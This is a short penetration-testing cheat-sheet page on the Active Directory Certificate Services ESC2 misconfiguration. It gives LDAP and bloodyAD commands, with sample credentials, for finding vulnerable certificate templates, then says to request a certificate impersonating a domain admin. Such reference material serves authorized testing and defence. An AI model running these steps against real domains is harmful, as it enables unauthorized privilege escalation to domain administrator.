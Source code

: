 # Active Directory - Certificate ESC2

## ESC2 - Misconfigured Certificate Templates

**Requirements**

* Allows requesters to specify a Subject Alternative Name (SAN) in the CSR as well as allows Any Purpose EKU (2.5.29.37.0)

**Exploitation**

* Find template

  ```ps1
  PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
  # or
  python bloodyAD.py -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=megacorp,DC=local' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))'
  ```

* Request a certificate specifying the `/altname` as a domain admin like in [ESC1 - Misconfigured Certificate Templates](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-esc01/).

## References
